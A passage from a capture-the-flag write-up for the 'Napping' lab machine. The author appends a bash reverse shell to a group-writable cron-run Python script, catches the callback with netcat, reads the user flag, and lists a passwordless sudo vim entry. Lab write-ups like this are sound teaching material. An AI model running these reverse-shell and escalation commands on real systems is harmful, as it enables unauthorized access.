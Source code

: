 I noticed that this script belongs to the **administrators** group, user daniel belongs to that group, so I can edit this file.

```console
daniel@napping:/home/adrian$ ls -l
total 12
-rw-rw-r-- 1 adrian administrators  481 Oct 30  2021 query.py
-rw-rw-r-- 1 adrian adrian         2208 Sep 27 03:54 site_status.txt
-rw------- 1 adrian adrian           22 Oct 12  2021 user.txt
```

## Privilege Escalation
### Cron Job

I typed the following commands to append python instructions to **query.py** script, which executes a bash reverse shell.

```console
daniel@napping:/home/adrian$ echo "import os" >> query.py
daniel@napping:/home/adrian$ echo "os.system(\"bash -c 'bash -i >& /dev/tcp/172.16.178.1/443 0>&1'\")" >> query.py
```

I waited a few minutes and got a shell with adrian user privileges.

```console
root@kali:/var/www/html# nc -vlnp 443
listening on [any] 443 ...
connect to [172.16.178.1] from (UNKNOWN) [172.16.178.137] 45748
bash: cannot set terminal process group (3594): Inappropriate ioctl for device
bash: no job control in this shell
adrian@napping:~$ script -qc /bin/bash /dev/null
script -qc /bin/bash /dev/null
adrian@napping:~$ id
id
uid=1000(adrian) gid=1000(adrian) groups=1000(adrian),1002(administrators)
```

I found the first flag in Adrian's home directory.

```console
adrian@napping:~$cat user.txt
cat user.txt
You are nearly there!
```

### Sudo Permissions

Listing the sudo permissions, I found that user **adrian** can execute vim as sudo without password.

```console
adrian@napping:~$ sudo -l
sudo -l
Matching Defaults entries for adrian on napping:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User adrian may run the following commands on napping:
    (root) NOPASSWD: /usr/bin/vim
```
